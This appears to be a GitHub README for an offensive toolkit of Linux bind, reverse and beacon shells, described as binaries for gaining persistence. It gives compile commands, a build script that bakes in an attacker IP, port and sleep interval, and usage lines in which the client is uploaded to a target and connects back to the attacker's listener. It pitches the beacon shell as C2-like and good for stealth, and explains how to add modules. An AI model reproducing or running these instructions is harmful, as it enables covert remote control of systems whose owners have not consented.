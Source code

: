 # Description
These are binaries that you can compile and execute to obtain persistence.
- Bind Shells
- Reverse Shells
- Beacon-like Shells

Note: Currently these shells are Linux specific meaning they most likely won't run on Windows OS. Windows shells will come in the future though!

# Compiling
To compile the bind and reverse shells, simply run:
```
gcc -o server server.c && gcc -o client client.c
```

To compile the beacon shells:
```
./compile.sh -i <IP> -p <PORT> -s <SLEEP INT>
```

# Usage

## Bind Shells
Multi-client bind shell is a work in progress. Currently, only one client can connect at a time. 
```
./server <PORT>

rlwrap ./client <IP> <Port>
```
I also suggest using the `rlwrap` tool when executing the client. This tool allows you to scroll through previous commands and use arrow keys to edit your commands.

## Reverse Shells
Works like a standard reverse shell payload. Just upload and run. The server is the listener, so it's executed on your attacker machine.
```
rlwrap ./server <PORT>

./client <IP> <PORT>
```

## Beacon Shells
These are basically reverse shells except they have a delay in which they grab commands and you can execute binaries as you would in a C2 server. This can be helpful in stealth. HTTP based beacon shells may come in the future!
```
rlwrap ./server <PORT>

./client <IP> <PORT>
```
A feature I implemented with this is that it's easily customizable. You can add your own modules in 3 steps.
1. Define your function name within include/commands.h 
2. Add your function to the `execute.c` program
3. Insert your function name to the dictionary right above the main function in `payload.c`. Follow the format of previous entries.

After that everything should be good to go and ready for use. 
